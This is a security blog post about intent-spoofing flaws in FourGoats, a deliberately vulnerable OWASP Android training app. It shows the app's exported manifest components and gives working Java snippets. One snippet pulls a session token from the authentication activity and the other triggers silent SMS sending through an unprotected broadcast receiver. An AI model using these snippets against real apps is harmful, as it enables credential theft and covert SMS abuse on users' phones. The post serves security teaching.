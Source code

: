 +++
author = "pwntester"
date = 2012-11-17T09:18:00Z
description = ""
draft = false
slug = "fourgoats-vulnerabilities-intent-spoofing"
title = "FourGoats Vulnerabilities: Intent Spoofing"

+++

The Android platform enables an inter application communication that can cause side effects in the security of our application. If a component allows any application to send him intents, we can end up being a puppet on any malware hands.

In order to prevent this situation, the Android platform enables two controls to limit who can talk to you application components. These controls are:

* Permissions
* Intents types

The first one is obvious, the component can request the calling application to present a specific permission in order to call your application.

The second one define two different type of intents:

* Explicit intents are sent to an specific component and only delivered to him</li>
* Implicit intents request an action to be done and ask the system to look for the better component to perform that action. If the component is an Activity, the system will present the user a list with all the activities registered to handle that specific action. If the component is a service, it will be randomly delivered to any of them. Finally, if the component is a broadcast receiver, the system will deliver a copy to all of them.

One interesting fact is that any component is private by default. so far so good. Problems begin when a developer register a component to handle any implicit intent by declaring an intent-action. All of a sudden, that component will immediately become public with no notification to the developer. If the developer wants to keep that component private, he must declare explicitly that component as non exported.

Now, let have a look to the fourGoats app and check what applications are public. We can find three explicitly exported components:

```
<activity
android:name=".activities.ViewCheckin"
android:exported="true"
android:label="@string/view_checkin" >
</activity>

<activity
android:name=".activities.ViewProfile"
android:exported="true"
android:label="@string/profile" >
</activity>

<activity
android:name=".activities.SocialAPIAuthentication"
android:exported="true"
android:label="@string/authenticate" >
</activity>
```

and if we look for implicitly exported components we will find another two:

```
<service android:name=".services.LocationService" >
<intent-filter>
<action android:name="org.owasp.goatdroid.fourgoats.services.LocationService" />
</intent-filter>
</service>

<receiver
android:name=".broadcastreceivers.SendSMSNowReceiver"
android:label="Send SMS" >
<intent-filter>
<action android:name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS" />
</intent-filter>
</receiver>
```

As they (intentionally or not) declared public, lets see what can we do with them.

**SocialAPIAuthentication**

Reviewing the SocialAPIAuthentication activity, it seems that it present a login form to the user, performs the authentication and if its validated by the server, it returns a session token.

Now, let see how can we get a session token from any other app by presenting the user the same activity and ask him to enter its credentials:

```
Intent tokenIntent = new Intent();
tokenIntent.setComponent(new ComponentName("org.owasp.goatdroid.fourgoats","org.owasp.goatdroid.fourgoats.activities.SocialAPIAuthentication"));
startActivityForResult(tokenIntent, STATIC_INTEGER_VALUE);
```

Now we need to handle the call back:

```
@Override
public void onActivityResult(int requestCode, int resultCode, Intent data) {
  super.onActivityResult(requestCode, resultCode, data);
  switch(requestCode) {
    case (STATIC_INTEGER_VALUE) : {
      if (resultCode == Activity.RESULT_OK) {
        Log.w("alvms", "4Goats SessionToken: " + data.getStringExtra("sessionToken"));
      }
      break;
    }
  }
}
```

Ok, it doesn't look a big deal since the malware app can also fake the login form and get the credentials if the user is willing to authenticate himself from another application, lets see another abuse case

**SendSMSNowReceiver**

Ok, so this receiver is registered to handle the action: org.owasp.goatdroid.fourgoats.SOCIAL_SMS but the developer forgot to declare the component as private so it will be automatically be registered in the system as public because it handles an implicit action.

So if its public, we can call it:

```
Intent broadcastIntent=new Intent();
broadcastIntent.setAction("org.owasp.goatdroid.fourgoats.SOCIAL_SMS");
broadcastIntent.putExtra("phoneNumber","0034666666666");
broadcastIntent.putExtra("message","Hi");
sendBroadcast(broadcastIntent)
```

And voila, we are sending an SMS from the user phone without him noticing.

If the developer meant this component to be public but protect it from being call from any application, he needs to declare a strong permission so only those apps with that permission granted can call that component.

You can find the intent spoofer client here:

[https://github.com/pwntester/OWASP-GoatDroid-Dolphis](https://github.com/pwntester/OWASP-GoatDroid-Dolphis)

Enjoy
